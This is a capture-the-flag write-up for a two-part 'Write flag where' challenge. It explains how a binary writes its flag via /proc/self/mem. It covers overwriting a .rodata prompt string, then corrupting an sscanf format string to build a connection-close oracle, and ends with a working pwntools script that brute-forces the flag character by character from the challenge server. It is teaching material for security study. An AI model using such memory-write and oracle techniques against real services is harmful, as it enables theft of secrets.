

---
tags:
  - rev
---

# Write flag where

This challenges had three parts with increasing difficulty. During competition we solved up to part 2. The solution to part 2 uses a very nice trick that was not the intended solution.

## Part 1

In this problem you are given a binary `chal` with a library `libc.so.6`.

    ❯ file chal
    chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=325b22ba12d76ae327d8eb123e929cece1743e1e, for GNU/Linux 3.2.0, not stripped

    ❯ file libc.so.6
    libc.so.6: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=69389d485a9793dbe873f0ea2c93e02efaa9aa3d, for GNU/Linux 3.2.0, stripped

Ok, this is an ELF binary, dynamically linked, we can run it on Linux.

We are also given a server we can connect to:

    nc wfw1.2023.ctfcompetition.com 1337

    This challenge is not a classical pwn
    In order to solve it will take skills of your own
    An excellent primitive you get for free
    Choose an address and I will write what I see
    But the author is cursed or perhaps it's just out of spite
    For the flag that you seek is the thing you will write
    ASLR isn't the challenge so I'll tell you what
    I'll give you my mappings so that you'll have a shot.
    5626cbcd7000-5626cbcd8000 r--p 00000000 00:11e 810424                    /home/user/chal
    5626cbcd8000-5626cbcd9000 r-xp 00001000 00:11e 810424                    /home/user/chal
    5626cbcd9000-5626cbcda000 r--p 00002000 00:11e 810424                    /home/user/chal
    5626cbcda000-5626cbcdb000 r--p 00002000 00:11e 810424                    /home/user/chal
    5626cbcdb000-5626cbcdc000 rw-p 00003000 00:11e 810424                    /home/user/chal
    5626cbcdc000-5626cbcdd000 rw-p 00000000 00:00 0
    7f4d9e838000-7f4d9e83b000 rw-p 00000000 00:00 0
    7f4d9e83b000-7f4d9e863000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f4d9e863000-7f4d9e9f8000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f4d9e9f8000-7f4d9ea50000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f4d9ea50000-7f4d9ea54000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f4d9ea54000-7f4d9ea56000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f4d9ea56000-7f4d9ea63000 rw-p 00000000 00:00 0
    7f4d9ea65000-7f4d9ea67000 rw-p 00000000 00:00 0
    7f4d9ea67000-7f4d9ea69000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f4d9ea69000-7f4d9ea93000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f4d9ea93000-7f4d9ea9e000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f4d9ea9f000-7f4d9eaa1000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f4d9eaa1000-7f4d9eaa3000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7ffe76706000-7ffe76727000 rw-p 00000000 00:00 0                          [stack]
    7ffe767e9000-7ffe767ed000 r--p 00000000 00:00 0                          [vvar]
    7ffe767ed000-7ffe767ef000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]


    Give me an address and a length just so:
    <address> <length>
    And I'll write it wherever you want it to go.
    If an exit is all that you desire
    Send me nothing and I will happily expire

Nice poem, it probably describes the functionality. In hindsight is obvious that it exactly describes its functionality (let's get there in a moment).

We tried interacting with the server. After few attempts we figured out that passing something like they said (`<address> <length>`) where `address` is a hexadecimal string starting with `0x` would work (i.e the server wouldn't immediately close).

Let's see inside the binary with Ghidra:



It takes some time to parse the code, and we see some weird artifacts like `undefined8` but other than that is pretty readable C code (like as much as you can expect from a decompiler and C code combination).

In particular we see they are loading the flag from `flags.txt`, that is something that exist on the server, and its content is what we are looking for.

The flag is read to `flag` variable in this code.

The last part of the code seems interesting:

```c
sVar2 = read(local_14,&local_78,0x40);
local_1c = (undefined4)sVar2;
iVar1 = __isoc99_sscanf(&local_78,"0x%llx %u",&local_28,&local_2c);
if ((iVar1 != 2) || (0x7f < local_2c)) break;
local_20 = open("/proc/self/mem",2);
lseek64(local_20,local_28,0);
write(local_20,flag,(ulong)local_2c);
close(local_20);
```

Tip: In Ghidra you can rename variables or functions to make the code more readable. I haven't found a way to collapse blocks of code, that would be nice.

Line by line what is happening:

-   Read 0x40 (4 \* 16 = 64) bytes from `local_14` file descriptor (i.e potentially stdin) to `local_78` buffer.
-   ...
-   Parse this string as 0x%llx %u (i.e. 0x followed by hexadecimal number followed by a space and a decimal number). Store those numbers in `local_28` and `local_2c`.
-   break if the amount of parsed elements is different from 2, or local2c is greater than 0x7f (127).
-   Open `/proc/self/mem` (i.e. the memory of the current process) in write mode. O_O this seems dangerous.
-   Seek to `local_28` (i.e. the address we passed to the server).
-   Write the flag to the address we passed, with length `local_2c`.
-   Close the file descriptor.

Ok, this is great. We can write the flag to any address we want.

We need to write it to some place where it will be printed.

There is a loop, and the loop starts printing some instructions: `Give me an address and a length just so:...`

Let's try to write the flag there. How?

Double clicking the text in Ghidra will show exactly where it is in the binary:


Now this address is relative to the binary, but we need to find where it is in memory. We do know that this text is stored in the `.rodata` section, and this section is mapped to an specific address in memory.


Fortunately we are given another hint:

    ASLR isn't the challenge so I'll tell you what
    I'll give you my mappings so that you'll have a shot.

And they actually provide the mappings of the running binary in real time:
This is the code that does that:

```c
    local_c = open("/proc/self/maps",0);
    read(local_c,maps,0x1000);
    close(local_c);
    // ...
    dprintf(local_14,"%s\n\n",maps);
```

The first five sections are the ones about the binary itself:

    5626cbcd7000-5626cbcd8000 r--p 00000000 00:11e 810424                    /home/user/chal
    5626cbcd8000-5626cbcd9000 r-xp 00001000 00:11e 810424                    /home/user/chal
    5626cbcd9000-5626cbcda000 r--p 00002000 00:11e 810424                    /home/user/chal
    5626cbcda000-5626cbcdb000 r--p 00002000 00:11e 810424                    /home/user/chal
    5626cbcdb000-5626cbcdc000 rw-p 00003000 00:11e 810424                    /home/user/chal

The second column will show the mode of the section `w` means you can write, `x` means you can execute.

With some trial and error we found that the third section was the one with `.rodata`

With basic arithmetic we computed where was the address with respect to the beginning of `.rodata`, and given we know the actual beginning of `.rodata` from the printed mappings, we knew where was the string address in memory. We wrote the flag there, and we got the flag in the next iteration of the loop.

## Part 2

Second challenge looks pretty much the same, but right now there is no string in the loop. We can't use the solution to the previous part.

There are still few strings where we can write the flag to.

We can overwrite the code itself, yikes.

We got some time analyzing this problem and we found out something new & problematic:

```c
local_14 = dup2(1,0x39);
local_18 = open("/dev/null",2);
dup2(local_18,0);
dup2(local_18,1);
dup2(local_18,2);
close(local_18);
alarm(0x3c);
```

[`dup2`](https://man7.org/linux/man-pages/man2/dup2.2.html) copies a file descriptor into another.
`0` is stdin, `1` is stdout, `2` is stderr.

Line by line:

-   Copy stdout to file descriptor 0x39 (57).
-   Open `/dev/null` in write mode.
-   Copy `/dev/null` to stdin.
-   Copy `/dev/null` to stdout.
-   Copy `/dev/null` to stderr.
-   ...
-   Set an alarm to 0x3c (60) seconds.

So all usual way to talk about file descriptors are removed, and if we want to print to stdout we must print to 0x39.

In this challenge we can write a prefix of the flag into any location, in particular it can be a prefix of size 1.

We can write a prefix of the flag onto itself but shifted to the left, this way in the next iteration rather than writing the flag to some address, we will be writing the beginning of the string that starts at the flag address which is potentially a suffix of the flag.

That means we can write any substring / character of the flag anywhere.

... time passed

One promising but unsuccessful idea was trying to jump to a different place in the code by writing some character of the flag. It turned out the expected solution was along this line, but we never made it work.

We tried making the application crash / close / or even trying to exploit the alarm. I.e we needed to leak information from any mean possible.

In this part, we didn't get any feedback from the server, i.e nothing was printed, the only feedback was either processing our input and do nothing, or closing if the input was invalid.

Wait, that is some information... if the input was invalid it would close and we would get that information. How to use that to leak the flag.

We need to make the input fail/succeed depending on parts of the flag.

We had access to the pattern of `sscanf` that we can modify, and that is exactly what we did.

We can overwrite the character `0` from the `sscanf` pattern with one character from the flag. Then we send a new input, with some character, and if the application doesn't exit, we guessed correctly that character.

This way we can guess character one by one, on each step by iterating over all possible characters of the flag.
The final script was actually quite slow, but did the job (partially). This is the script:

```python
import string
from pwn import *
import time

flag_length = 40

def is_nth_char(index, ch, heap_delta=0xa0):

    context.log_level = 'error'

    conn = remote('wfw2.2023.ctfcompetition.com', 1337)
    lines = conn.recvlines(timeout=1)

    # parse addresses
    print(len(lines))

    _rodata = lines[5]
    _heap = lines[8]

    _rodata_address = int(_rodata.decode().split('-')[0], 16)
    _heap_address = int(_heap.decode().split('-')[0], 16)

    # print('.rodata : ', hex(_rodata_address))
    # print('.heap : ', hex(_heap_address))

    flag_address = _heap_address + heap_delta

    format_str_offset = 188
    format_str_address = _rodata_address + format_str_offset

    # flag = flag[index:]

    # TODO uncomment
    conn.send(f'{hex(flag_address - index)} {flag_length}\n'.encode())

    # '0x%llx' -> {flag[index]}'x%llx'
    conn.send(f'{hex(format_str_address)} 1\n'.encode())

    # # check conn is alive
    # try:
    #     conn.recv()
    # except EOFError:
    #     assert False

    for i in range(5):
        try:
            conn.send(f'{ch}x123 1\n'.encode()) # test only is sscanf fails or not
            sleep(0.2)
        except EOFError:
            return False

    return True

partial_flag = list('CTF{') + ['*'] * flag_length

for i in range(4, flag_length):

    if partial_flag[i] != '*':
        assert is_nth_char(i, partial_flag[i])
        continue

    for ch in string.ascii_lowercase + string.ascii_uppercase + string.digits + '_':
        if is_nth_char(i, ch):
            print("Success:", i, ch)
            partial_flag[i] = ch
            break
        else:
            print("Failure:", i, ch)

        print("Flag: ", ''.join(partial_flag))

    print("Flag: ", ''.join(partial_flag))
```

The hardest / more fragile part of the script was trying to detect if the connection was over or not.

This predicted all the flag but the last character, since it was not in the set of candidates we were trying. That was guessed manually.
